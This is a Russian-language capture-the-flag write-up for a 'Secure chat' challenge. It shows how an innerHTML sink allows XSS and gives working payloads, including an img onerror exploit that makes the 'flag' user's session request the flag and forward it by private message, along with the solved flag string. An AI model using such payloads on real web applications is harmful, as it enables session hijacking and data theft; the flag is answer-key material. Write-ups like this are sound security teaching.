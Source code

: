 # Secure chat: Write-up

Давайте зайдём в чат с именем _user_ и посмотрим, что там есть.
> Привет и добро пожаловать в наш чат, user! Напиши /help для справки.

Хорошо, посмотрим.
> Доступные команды:
> - /help — эта справка
> - /pm \[user] \[message] — отправить личное сообщение \[message] пользователю \[user]
> - /flag — получить флаг (доступно только пользователю flag)
> - /users — получить список подключенных к серверу

Так, флаг доступен только пользователю _flag_. Попытаемся войти.
> Имя пользователя занято.

Ладно, не всё так уж просто. Давайте подумаем, как же можно "обмануть" сервер? Для начала, изучим 
исходник сайта. Нас интересует скрипт. Где-то в коде есть такая функция:
```javascript
function insertMessage(text) {
    const message = document.createElement('p');
    message.className = 'message';
    message.innerHTML = text;
    document.getElementById('messages').insertAdjacentElement('afterbegin', message);
}
```
Обратим внимание на эту строчку:
> `message.innerHTML = text`

М-да. Ну и безопасность. На лицо явный [XSS][xss]. Так давайте же попробуем эксплуатировать!
Пишем `<script>alert();</script>`, отправляем и... Получаем такое сообщение:
> Для предотвращения флуда, форматирование текста в общем чате запрещено.

Интересненько. Давайте вернёмся к справке и ещё раз перечитаем внимательно. У нас есть команда 
`/pm`, чтобы отправлять личные сообщения. Самое время попробовать отправить себе сообщение с 
"форматированием". Сначала откроем ещё одну вкладку и зайдём с именем _user2_, а затем от имени
_user_ отправим: `/pm user2 <script>alert();</script>`. Упс, ничего не произошло. Но почему?! 
Немного [погуглив][lmgtfy], узнаём, что [`innerHTML`][innerhtml] не даст динамически вставить тег 
`<script>`. Но у нас есть и другие варианты. Например, `<img src='' onerror='alert();'>`. Пишем, 
отправляем. Ух ты, заработало! Самое время продолжить изучать код и написать эксплоит, который 
при помощи команды `/pm` отправит нам флаг: 
```
/pm flag <img src='' onerror="ws.onmessage=function(e){setTimeout(function(){sendMessage('/pm user '+e.data);ws.onmessage=function(e){insertMessage(e.data);};},1500);};setTimeout(function(){sendMessage('/flag');},1500);">
```

Флаг: `ytctf{This_should_not_happen_but_I_can_do_XSS_via_w3bs0ket_haha}`

[xss]: https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3
[lmgtfy]: https://www.google.com/search?q=insert+script+tag+dynamically
[innerhtml]: https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML

